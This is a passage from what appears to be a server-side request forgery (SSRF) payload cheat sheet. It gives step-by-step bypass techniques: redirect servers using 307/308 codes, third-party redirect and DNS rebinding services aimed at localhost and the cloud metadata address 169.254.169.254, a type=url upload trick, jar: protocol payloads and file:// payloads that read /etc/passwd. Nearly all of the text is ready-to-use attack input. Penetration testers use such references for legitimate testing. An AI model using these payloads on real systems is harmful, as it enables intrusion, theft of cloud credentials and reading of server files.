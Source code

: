 ```powershell
1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)
2. Launch the SSRF pointing to  vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
3. You can use response codes [307](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) and [308](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/308) in order to retain HTTP method and body after the redirection.
```

To perform redirects without hosting own redirect server or perform seemless redirect target fuzzing, use https://github.com/Horlad/r3dir which hosted on r3dir.me

```powershell
#Redirects to http://localhost with `307 Temporary Redirect` status code
https://307.r3dir.me/--to/?url=http://localhost

#Redirects to http://169.254.169.254/latest/meta-data/ with `302 Found` status code
https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me
```

### Bypassing using type=url

```powershell
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

### Bypassing using DNS Rebinding (TOCTOU)

```powershell
Create a domain that change between two IPs. http://1u.ms/ exists for this purpose.
For example to rotate between 1.2.3.4 and 169.254-169.254, use the following domain:
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

### Bypassing using jar protocol (java only)

Blind SSRF

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## SSRF exploitation via URL Scheme

### File 

Allows an attacker to fetch the content of a file on the server

```powershell
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```
